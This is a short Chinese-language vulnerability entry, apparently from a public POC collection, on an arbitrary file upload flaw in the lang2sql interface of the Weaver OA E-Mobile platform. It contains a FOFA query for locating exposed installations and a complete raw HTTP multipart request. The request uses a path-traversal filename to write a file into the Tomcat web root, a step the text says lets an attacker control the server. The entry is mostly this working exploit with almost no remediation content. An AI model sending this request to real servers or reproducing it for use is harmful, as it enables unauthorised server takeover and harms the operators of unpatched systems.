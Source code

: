 ## 泛微OA-E-Mobile移动管理平台lang2sql任意文件上传漏洞

>    泛微OA E-Mobile 移动管理平台 lang2sql 接口存在任意文件上传漏洞，攻击者可通过该漏洞上传任意文件从而控制整个服务器。

## fofa

```
product="泛微-EMobile"
```

## poc

```
POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Content-Length: 265
Content-Type: multipart/form-data; boundary=00content0boundary00
Sl-Ce-Suid: 15
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate, br
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="source"


--00content0boundary00
Content-Disposition: form-data; name="file"; filename="../../../../appsvr/tomcat/webapps/ROOT/lGMXG.txt"

qNZGimiejDiiR5HKHubtm3Ib5WeWUnM6
--00content0boundary00--
```

![image-20240602201513765](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406022015812.png)

![image-20240602201522994](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406022015032.png)